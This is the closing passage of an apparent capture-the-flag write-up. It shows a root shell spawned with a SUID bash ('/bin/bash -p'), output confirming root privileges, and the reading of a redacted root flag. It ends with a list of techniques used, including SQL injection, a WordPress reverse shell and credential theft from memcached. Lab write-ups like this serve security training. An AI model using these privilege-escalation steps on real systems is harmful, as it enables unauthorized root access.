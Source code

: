 Yes!! It worked! **Let's spawn a bash shell with SUID privilege!**

```
Orka@osboxes:/usr/sbin$ /bin/bash -p
bash-4.3# whoami;hostname;id;ip a
root
osboxes
uid=1001(Orka) gid=1001(Orka) euid=0(root) egid=0(root) groups=0(root),1001(Orka)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:94:36:70:83:dd brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.35/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::94:36ff:fe70:83dd/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

# Rooted

**root.txt:**
```
bash-4.3# cat /root/root.txt
{Redacted}
```

# Conclusion

What we've learned:

1. Subdomain Enumeration
2. Directory Enumeration
3. WordPress Enumeration
4. Union-Based SQL Injection
5. Hash Cracking
6. WordPress Reverse Shell
7. Dynamic Port Forwarding
8. Memcached Enumeration
9. Privilege Escalation via Cleartext Credentials in Memcached
10. Privilege Escalation via Relative Path in `bitcoin` Binary & Misconfigured Directory Permission